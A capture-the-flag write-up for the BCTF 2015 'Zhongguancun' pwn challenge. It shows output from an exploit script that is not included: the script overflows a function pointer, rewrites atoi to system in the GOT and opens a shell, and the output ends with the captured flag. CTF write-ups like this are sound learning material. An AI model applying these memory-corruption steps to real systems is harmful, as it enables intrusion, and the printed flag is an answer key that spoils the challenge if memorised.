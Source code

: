 ## BCTF 2015 - Zhongguancun (Pwn 450)
##### 21-23/03/2015 (48hr)
___

### Description: 
```
nc 146.148.60.107 6666
*********************************
*** Welcome to Zhong Guan Cun ***
*********************************
Are you dreaming of becoming a Milli$_$naire?
Come to sell some electronics!
```
___
### Solution

A detailed solution is within the exploit file.

```
ispo@xrysa4 ~/bctf $ python zhongguancun_exploit.py 
 **** PHASE 1: registering items ****
 **** PHASE 2: overflowing function pointer ****
 **** PHASE 3: tampering money pointer ****
 **** PHASE 4: changing atoi() to system() in GOT ****
	system 0x0003ada0	atoi 0x0002d160
	atoi - price*buy = 0x00df1160
 **** PHASE 5: triggering system() ****
 **** PHASE 6: opening shell ****
whoami 
	zhongguancun
pwd
	/home/zhongguancun
ls -la
	total 44
	drwxr-x--- 3 root zhongguancun  4096 Mar 21 01:29 .
	drwxr-xr-x 3 root root          4096 Mar 21 01:28 ..
	-rw-r--r-- 1 root zhongguancun    21 Jun 11  2014 .bash_logout
	-rw-r--r-- 1 root zhongguancun    57 Jun 11  2014 .bash_profile
	-rw-r--r-- 1 root zhongguancun   141 Jun 11  2014 .bashrc
	drwxr-xr-x 2 root zhongguancun  4096 Mar 21 01:28 apps
	-r--r----- 1 root zhongguancun    50 Mar 21 01:27 flag
	-rwxr-x--- 1 root zhongguancun 14132 Mar 20 14:08 zhongguancun
cat flag
	BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}
exit
```
Flag is **BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}**
___